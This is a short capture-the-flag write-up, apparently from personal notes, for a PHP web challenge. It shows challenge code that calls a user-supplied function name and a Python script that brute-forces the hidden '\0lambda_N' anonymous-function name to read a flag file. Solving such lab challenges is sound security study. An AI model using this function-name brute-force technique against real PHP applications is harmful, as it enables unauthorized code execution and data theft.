 ![[Pasted image 20230226131534.png|500]]

```php
<?php

$MY = create_function("","die(`cat flag.php`);");
$hash = bin2hex(openssl_random_pseudo_bytes(32));
eval("function SUCTF_$hash(){"
    ."global \$MY;"
    ."\$MY();"
    ."}");
if(isset($_GET['func_name'])){
    $_GET["func_name"]();
    die();
}
show_source(__FILE__); 
```

创建了一个匿名函数，匿名函数以`<NUL>lambda_<num>`命名，直接爆破

```python
import requests

url = 'http://6a737906-4926-47a2-8b0e-8b51cac68f8e.node4.buuoj.cn:81/?func_name=%00lambda_{}'

for i in range(10000):
    response = requests.get(url.format(i))
    print("{}: {}".format(i, response.status_code))
    if response.status_code == 200:
        print(response.text)
        break
```

![[Pasted image 20230226134442.png|500]]

#Web #PHP #lambda